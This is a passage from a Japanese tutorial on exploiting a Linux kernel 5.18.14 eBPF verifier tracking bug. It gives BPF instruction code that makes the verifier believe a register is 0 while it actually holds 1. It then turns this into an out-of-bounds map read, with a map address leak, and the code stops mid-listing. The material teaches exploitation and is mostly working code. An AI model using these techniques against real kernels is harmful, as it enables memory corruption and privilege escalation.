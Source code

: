 ```c
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R2 --> (s32_min=0, s32_max=1, u32_min=0, u32_max=1) / 実際値:1
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_9, 0),
    BPF_JMP32_IMM(BPF_JLE, BPF_REG_2, 1, 2), // 1より大きいケースを破棄
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),

    // R1 --> 0 / 実際値:1
    BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 1),

    // R1の実際の値を見てみる
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_1, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
  };
```
このプログラムを実行した後のマップ（R1の実際の値）を確認してみると、1になっていることが分かります。一方、22番目の命令終了時点で検証器はR1に0が入っていると推測しています。

<center>
  <img src="img/broken_tracking.png" alt="追跡が壊れた定数の作成" style="width:640px;">
</center>

### 範囲外参照の確認
先ほどのコードで、追跡結果が定数0になるにも関わらず、実際には1を持つようなレジスタが作れました。このレジスタに適当な数を掛けて、マップのポインタに足すと、結果として範囲外を指す有効なポインタが作れます。

実際に試してみましょう。
次のBPFプログラムは、壊れたレジスタに0x100を掛けることで、「推測値=0 / 実際値=0x100」の状況を作り、それを使ってマップの範囲外を`BPF_LDX_MEM`で読んでいます。
```c
int main() {
  char verifier_log[0x10000];
  unsigned long val;

  // BPFマップを作成
  int mapfd = map_create(8, 1);

  unsigned long addr_map = leak_map_address(mapfd);
  printf("[+] addr_map = 0x%016lx\n", addr_map);

  val = 1;
  map_update(mapfd, 0, &val);
  /* BPFプログラム */
  struct bpf_insn insns[] = {
    // R0 --> &map[0]
    BPF_ST_MEM(BPF_DW, BPF_REG_FP, -0x08, 0), // key=0
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -8),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), // map_lookup_elem(mapfd, &k)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),
```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外